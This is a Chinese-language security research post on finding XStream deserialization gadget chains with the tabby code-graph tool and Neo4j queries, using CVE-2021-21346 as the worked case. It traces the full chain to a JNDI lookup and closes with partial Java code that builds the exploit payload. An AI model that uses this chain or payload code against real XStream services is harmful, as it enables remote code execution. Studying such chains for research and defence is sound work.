



## #1 前言

Java反序列化利用链一直都是国内外研究热点之一，但当前自动化方案gadgetinspector的效果并不好。所以目前多数师傅仍然是以人工+自研小工具的方式进行利用链的挖掘。目前我个人也在找一个合适的方法来高效挖掘利用链，本文将主要介绍我自己的一些挖掘心得，辅以XStream反序列化利用链CVE-2021-21346为例。

<!-- more -->

## #1 前置知识

这里前置知识主要有两类：XStream反序列化利用链的原理和图数据库查询语法

1. XStream反序列化利用链原理

   这里具体的原理可以见[回顾XStream反序列化漏洞](https://www.anquanke.com/post/id/204314)，这里我们只需知道XStream在反序列化的过程中它的限制是很少的（不用PureJavaReflectionProvider），它甚至能还原构造好的Method对象。所以这里我们需要清楚的是它的触发函数source是什么，看我上面那篇文章能知道共有hashCode函数（Map方式）、compareTo函数（TreeSet方式）、compare函数（PriorityQueue方式）。

2. 图数据库查询语法

   这里用到了我即将开源的工具[tabby](https://github.com/wh1t3p1g/tabby)，该工具将jar文件转化为代码属性图，然后后续我们可以用neo4j的图数据库查询语法进行利用链的查找，所以我们需要有一定的图数据库查询语法的[基础](https://neo4j.com/docs/cypher-manual/current/)

## #2 利用链挖掘

首先本次针对的是JDK相关Jar文件的利用链检测分析，所以先使用tabby生成JDK相关的代码属性图至图数据库。执行完以下两句命令，可以生成一个28w数据节点，76w关系边的代码属性图：

```bash
# 生成图缓存文件
java -Xmx6g -jar target/tabby-1.0.0-SNAPSHOT.jar --isJDKOnly
# 导入Neo4j图数据
java -Xmx6g -jar target/tabby-1.0.0-SNAPSHOT.jar --isSaveOnly
```

接下来，构造图查询语言，这里提供一个模版

```sql
match (source:Method) // 添加where语句限制source函数
match (sink:Method {IS_SINK:true}) // 添加where语句限制sink函数
call apoc.algo.allSimplePaths(m1, source, "<CALL|ALIAS", 12) yield path // 查找具体路径,12代表深度，可以修改
return * limit 20
```

当前我们已经确定了当前可以使用hashCode函数、compareTo函数、compare函数作为source函数，那么只要再限制sink函数即可，如下查询语句

```
match (source:Method {NAME:"compare"})
match (sink:Method {IS_SINK:true, NAME:"invoke"})<-[:CALL]-(m1:Method)
call apoc.algo.allSimplePaths(m1, source, "<CALL|ALIAS", 12) yield path 
return * limit 20
```

本次利用链将限制危险函数为Method.invoke函数，具体查询结果如下图所示



可以看到末端的危险函数调用点为`sun.swing.SwingLazyValue#createValue`，来看一下具体的代码

```java
public Object createValue(final UIDefaults table) {
    try {
        ReflectUtil.checkPackageAccess(className);
        Class<?> c = Class.forName(className, true, null);
        if (methodName != null) {
            Class[] types = getClassArray(args);
            Method m = c.getMethod(methodName, types);
            makeAccessible(m);
            return m.invoke(c, args);
        } else {
            Class[] types = getClassArray(args);
            Constructor constructor = c.getConstructor(types);
            makeAccessible(constructor);
            return constructor.newInstance(args);
        }
    } catch (Exception e) {
        // Ideally we would throw an exception, unfortunately
        // often times there are errors as an initial look and
        // feel is loaded before one can be switched. Perhaps a
        // flag should be added for debugging, so that if true
        // the exception would be thrown.
    }
    return null;
}
```

从代码上看，该函数可以调用任意的静态函数或任意对象的构造函数。那么我们就先确定当前这个函数是否是可用的，即找到合适的静态函数或构造函数，该函数会调用某些危险函数从而达成代码执行或命令执行。这里也同样构造图查询语句进行合适函数的查找，暂时限定危险函数为`exec`、`lookup`、`invoke`。



找到了一个可以用的函数`<javax.naming.InitialContext: java.lang.Object doLookup(java.lang.String)>`，该静态函数可以进行JNDI注入攻击。

所以到这里我们就能确定当前的`sun.swing.SwingLazyValue#createValue`是可以利用的节点。

那么根据前一个查询结果，我们继续进行分析`javax.swing.UIDefaults#getFromHashtable`。

```java
private Object getFromHashtable(final Object key) {
        /* Quickly handle the common case, without grabbing
         * a lock.
         */
        Object value = super.get(key);
        
  			// ...

        /* At this point we know that the value of key was
         * a LazyValue or an ActiveValue.
         */
        if (value instanceof LazyValue) {
            try {
                /* If an exception is thrown we'll just put the LazyValue
                 * back in the table.
                 */
                value = ((LazyValue)value).createValue(this);
            }
         // ...
    }
```

`javax.swing.UIDefaults`是`Hashtable<Object,Object>`的另一个实现，所以这里`super.get(key)`获取到的value值对于我们来说是可以任意填充的，那么此处填充前面的`sun.swing.SwingLazyValue`对象即可触发`createValue`函数的调用。

从`getFromHashtable`函数开始，调用对象的情况开始变多了起来，此时需要对每一条进行分别分析，但多数情况简单看一下就能确定当前的传递情况是否可延续。

此处，我就直接讲CVE-2021-21346的利用链。

`javax.swing.UIDefaults#get`函数

```java
public Object get(Object key) {
    Object value = getFromHashtable( key );
    return (value != null) ? value : getFromResourceBundle(key, null);
}
```

`get`函数延续了key的传递，继续往上分析

`javax.swing.MultiUIDefaults#get`函数

```java
public Object get(Object key)
{
    Object value = super.get(key);
    if (value != null) {
        return value;
    }

    for (UIDefaults table : tables) {
        value = (table != null) ? table.get(key) : null;
        if (value != null) {
            return value;
        }
    }

    return null;
}
```

该函数有两处地方调用了`javax.swing.UIDefaults#get`分别是第3行、第9行，所以在写poc的时候，可以直接替换类属性tables或hashtable本身的value值也可以。

继续向上，`javax.swing.MultiUIDefaults#toString`

```java
public synchronized String toString() {
    StringBuffer buf = new StringBuffer();
    buf.append("{");
    Enumeration keys = keys();
    while (keys.hasMoreElements()) {
        Object key = keys.nextElement();
        buf.append(key + "=" + get(key) + ", ");
    }
    int length = buf.length();
    if (length > 1) {
        buf.delete(length-2, length);
    }
    buf.append("}");
    return buf.toString();
}
```

toString函数遍历了当前hashtable所存储的内容，自然这里也就调用到了`javax.swing.MultiUIDefaults#get`函数（第7行）。

所以到此为止，我们有从toString函数到invoke函数的调用链了。

接下来就是找到触发函数到toString函数的调用链了，这里为了查询结果更为清晰，我们只查询从触发函数到toString函数的利用链情况。

```
match (source:Method) where source.NAME in ["compareTo"]
match (sink:Method {NAME:"toString"})<-[r:CALL]-(m1:Method) where r.REAL_CALL_TYPE in ["java.lang.Object"]
call apoc.algo.allSimplePaths(m1, source, "<CALL|ALIAS", 6) yield path 
return * limit 20
```

这里比较难受的是三个触发函数和toString函数都是有大量实现的函数，所以如果要找到一条可用的得看不少时间。下图简单处理了一下（图中画的箭头只是一种可能性）



此处我们从compareTo开始讲，`javax.naming.ldap.Rdn$RdnEntry#compareTo`

```java
public int compareTo(RdnEntry that) {
    int diff = type.compareToIgnoreCase(that.type);
    if (diff != 0) {
        return diff;
    }
    if (value.equals(that.value)) {     // try shortcut
        return 0;
    }
    return getValueComparable().compareTo(
                that.getValueComparable());
}
```

这里的类属性value发起了equals函数，往下看`com.sun.org.apache.xpath.internal.objects.XString#equals`

```java
public boolean equals(Object obj2)
  {

    if (null == obj2)
      return false;

      // In order to handle the 'all' semantics of
      // nodeset comparisons, we always call the
      // nodeset function.
    else if (obj2 instanceof XNodeSet)
      return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
      return str().equals(obj2.toString());
  }
```

这里直接调用了obj2的toString函数，所以连上前面的利用链完整的利用链就出来了

```
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

至此，CVE-2021-21346就挖出来了，相对于人工挖，当前的方法大幅度减少了利用链的可能性种类，同样，另一条CVE-2021-21351也是同样的方法可以发现，以后有空再补充些其他的案例:)

## #3 利用链构造

当前这条利用链的构造相对来说比较简单，只需要构造好MultiUIDefaults即可，下面为部分构造代码，详细见[LazyValue](https://github.com/wh1t3p1g/ysomap/blob/master/core/src/main/java/ysomap/core/payload/xstream/LazyValue.java#L60)

```java
UIDefaults uiDefaults = new UIDefaults();
Object multiUIDefaults =
  ReflectionHelper.newInstance("javax.swing.MultiUIDefaults", new Object[]{new UIDefaults[]{uiDefaults}});
uiDefaults.put("lazyValue", obj);

Object rdnEntry1 = ReflectionHelper.newInstance("javax.naming.ldap.Rdn$RdnEntry", null);
ReflectionHelper.setFieldValue(rdnEntry1, "type", "ysomap");
ReflectionHelper.setFieldValue(rdnEntry1, "value", new XString("test"));

Object rdnEntry2 = ReflectionHelper.newInstance("javax.naming.ldap.Rdn$RdnEntry", null);
ReflectionHelper.setFieldValue(rdnEntry2, "type", "ysomap");
ReflectionHelper.setFieldValue(rdnEntry2, "value", multiUIDefaults);

return PayloadHelper.makeTreeSet(rdnEntry2, rdnEntry1);
```

## #4 总结

13号的时候XStream发布了1.4.16，共修复了11个CVE，其中还比较有意思的是threedr3am的classloader的利用方式，以及钟潦贵师傅的CVE-2021-21345（这条利用链很长，我当前只用tabby做了12个节点的查找，这条链大概有20个节点，嗯，很长）。相信这波完了之后，估计还能找到一些漏网之鱼XD

